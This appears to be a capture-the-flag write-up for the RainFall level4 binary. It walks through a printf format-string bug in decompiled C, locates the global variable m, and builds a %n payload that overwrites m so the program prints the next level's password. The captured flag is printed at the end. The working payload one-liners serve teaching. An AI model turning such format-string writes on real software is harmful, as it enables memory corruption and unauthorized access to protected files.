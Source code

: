 # Level4

You can find the decomp [here]("./level4_decomp.c"), it's the same theory as the last level, overwrite the desired variable value to bypass the `if` check, we need to set it to "16930116".

## Exploit

### Decomp

```c
void n(void)
{
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  p(local_20c);
  if (m == 0x1025544) {
    system("/bin/cat /home/user/level5/.pass");
  }
  return;
}
```

Here we can see that the check is done against the variable "m". We need to find its address so we can change its value.

### m address

We can find it using `objdump -t`:

```bash
08049810 g     O .bss   00000004              m
```

### Finding its offset

We can use the fact that the program uses `printf(buff)` as in the previous level:

```bash
level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08" + "%x " * 12' | ./level4
�b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 8049810
```

Here we can see that the address of `m` is at the 12th offset

___

### Address len

"m" needs to be set to "16930116" to pass the check.

First we need to calculate the length of "\x10\x98\x04\x08" as ascii.

To do that:

`python -c 'print "\x10\x98\x04\x08"' > /var/crash/add_len.txt`

Then:

```
wc -m /var/crash/add_len.txt
4 /var/crash/add_len.txt
```

It tells us that the length is 4.

### Stack pop length

We precedently found that we needed to pop the stack 12 times, however we need to modify the last one (12th). So we pop it 11 times as shown here:

`python -c 'print "%x" * 11'` => 'b7ff26b0bffff794b7fd0ff400bffff758804848dbffff550200b7fd1ac0b7ff37d0' (68)

68 + 4 = 72

16930116 - 72 = 16930044

Which means that we need to add that much char to our payload, however, `fgets()` having a fixed buffer of len 100 means we need to change our approach compared to our last level exploit. Instead we're going to use printf's padding such as:

`python -c 'print "%x" * 10 + "%16930044x"' > /var/crash/tmp.txt`

This won't work since we didn't "16930044x" means the total of printed char will be 16930044, counting the address len. So we also need to take into account the size of the adress we pop with "x" (the 11th pop we counted above).

16930044 + 8 = 16930052

`python -c 'print "%x" * 10 + "%16930052x"' > /var/crash/tmp.txt`

Now we combine our adress and the "%n" (so we can write our value to the mentionned address) to form our final payload as follow:

`python -c 'print "\x10\x98\x04\x08" + "%x" * 10 + "%16930052x" + "%n"' > /var/crash/tmp.txt`

### Building our payload

Our payload will look something like this:

`[m address] + [number to write] [offset\n]`

## Solution

<details>
  <summary>Spoiler</summary>

  We will right the address of `m` followed by `16930116 - 4(size of the address)` characters. `%16930112x` will write 16930112 characters that will then be treated by `%12$n` as, write the number of bytes we wrote as a number in the 12th arguments which is our `m` address

  ```bash
  python -c 'print "\x10\x98\x04\x08" + "%16930112x%12$n"'
  ```

  This will result in a ton of spaces, followed by:

  ```bash
  b7ff26b0
    0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
  ```
</details>


## Flag

0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a